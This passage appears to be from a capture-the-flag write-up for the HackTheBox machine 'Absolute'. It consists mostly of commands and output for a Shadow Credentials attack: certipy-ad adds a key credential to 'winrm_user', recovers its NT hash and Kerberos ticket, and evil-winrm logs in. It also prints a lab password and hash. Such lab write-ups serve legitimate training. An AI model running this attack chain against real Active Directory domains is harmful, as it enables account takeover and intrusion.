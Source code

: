 ```bash
kali@kali[~]$ net rpc group members "Network Audit" -U 'absolute.htb'/'m.lovegod'%'AbsoluteLDAP2022!' --use-kerberos=required -S dc.absolute.htb
```


### 02. Shadow Credentials攻击拿到winrm_user

```bash
kali@kali[~]$ certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '8b1c81f7-6779-73c5-b4ae-84e1cbe337d9'
[*] Adding Key Credential with device ID '8b1c81f7-6779-73c5-b4ae-84e1cbe337d9' to the Key Credentials for 'winrm_user'
[-] Could not update Key Credentials for 'winrm_user' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0



kali@kali[~]$ impacket-getTGT 'absolute.htb'/'m.lovegod':'AbsoluteLDAP2022!' -dc-ip dc.absolute.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.lovegod.ccache

kali@kali[~]$ certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '87445117-ccb6-17ea-abf3-fcfca405400e'
[*] Adding Key Credential with device ID '87445117-ccb6-17ea-abf3-fcfca405400e' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '87445117-ccb6-17ea-abf3-fcfca405400e' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2

kali@kali[~]$ export KRB5CCNAME=winrm_user.ccache

kali@kali[~]$ evil-winrm -i dc.absolute.htb -r ABSOLUTE.HTB

```
